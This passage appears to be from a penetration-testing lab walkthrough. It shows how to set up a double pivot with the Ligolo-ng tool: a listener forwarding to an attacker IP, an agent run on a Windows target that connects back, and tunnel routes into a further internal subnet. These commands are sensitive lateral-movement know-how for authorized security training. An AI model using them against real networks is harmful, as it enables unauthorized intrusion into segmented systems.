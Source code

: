 - The `--addr 0.0.0.0:11601` part tells the Ligolo-ng agent (running on the target machine) to listen on all network interfaces at port 11601. The IP `0.0.0.0` is a special address that means "listen on every available interface" of the agent, ensuring it accepts connections regardless of which internal IP receives the traffic.
- The `--to 10.10.14.7:11601` part specifies the destination address and port to which any incoming connections on the agent will be forwarded. Here, `10.10.14.7:11601` is the attacker machine's IP and port where the Ligolo-ng proxy is listening.

## Start the Agent on the Windows Target

Execute the agent on the Windows host, specifying the Linux target’s internal interface as the connection point:

```bash
./agent.exe -connect 192.168.2.5:11601 -ignore-cert
```

![image.png](image%207.png)

## Establish the New Tunnel

Once the session is visible in the Ligolo-ng interface, select it:

```bash
session
```

## Configure Internal Network Access

Create a new tunnel interface, add a route to the next internal segment, and start the tunnel:

```bash
interface_create --name Internal2
route_add --name Internal2 --route 192.168.3.0/24
tunnel_start --tun Internal2
```

![image.png](image%208.png)

You now have access to the `192.168.3.0/24` network segment through a double pivot (`attacker → Linux target → Windows target`), enabling through internal network exploration and assessment.

This same listener setup process can be repeated as many times as needed to achieve multiple pivoting within complex network environments. By chaining listeners and agents across successive internal hosts and subnets, you can traverse segmented networks layer by layer, expanding your reach and maintaining full control throughout the engagement.
